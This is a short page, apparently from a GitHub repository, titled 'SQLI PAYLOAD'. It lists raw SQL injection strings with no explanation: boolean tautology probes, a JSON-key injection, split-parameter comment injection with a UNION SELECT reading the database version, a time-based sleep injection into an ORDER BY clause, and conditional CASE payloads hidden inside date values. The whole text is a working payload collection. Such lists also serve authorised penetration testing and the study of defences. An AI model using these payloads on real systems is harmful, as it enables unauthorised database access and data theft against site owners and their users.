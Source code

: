 # SQLI PAYLOAD

||1=1%20limit%201%20%23  
||1=2%20limit%201%20%23  
{"or 1=1 -- ":"asdf"}//딕셔너리  
"1param":"asdf%') /*"  
"2param":" */ union select 0,0,0,@@version,0 --a"  
DESC, (select sleep(3)) -- -  
2024-0'||case when 1=1 then 5 else 0x2b end||'-10 23:30:58  
2024-0'||case when 1=2 then 5 else 0x2b end||'-10 23:30:58  

